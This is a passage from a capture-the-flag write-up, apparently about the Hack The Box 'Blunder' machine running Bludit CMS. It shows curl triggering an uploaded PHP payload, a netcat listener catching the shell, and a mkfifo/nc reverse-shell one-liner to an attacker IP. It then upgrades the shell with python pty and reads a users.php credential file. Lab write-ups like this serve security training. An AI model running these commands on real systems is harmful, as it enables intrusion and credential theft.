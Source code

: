 Finally, we activate our payload by curling it. Remember to start a handler.

`$ curl http://10.10.10.191/bl-content/tmp/temp/evil.png`

We got a shell!

```
$ sudo rlwrap nc -nvlp 53
listening on [any] 53 ...
connect to [10.X.X.X] from (UNKNOWN) [10.10.10.191] 46376
whoami                 
www-data                  
```

## Upgrading Our Shell

To upgrade our shell, we need to create another reverse shell with netcat, before uprading it with python.

In the php reverse shell:

```
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 443 >/tmp/f
```

In the new netcat reverse shell:

```
$ sudo rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.191] 37518
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ 
```

## Locating and Cracking Credentials

If an initial compromise is obtained via the web server, it's a good idea to check for any hardcoded credentials in the configuration files of the website. For instance, it's common to find SQL login credentials. But since Bludit is a flat file CMS that does not use databases like SQL, we might find similar information in JSON format.

Indeed, under the databases directory, we find some credentials in the `users.php` file.

```
www-data@blunder:/var/www$ cat ./bludit-3.10.0a/bl-content/databases/users.php
```

![hugo credentials](./hugo.png)
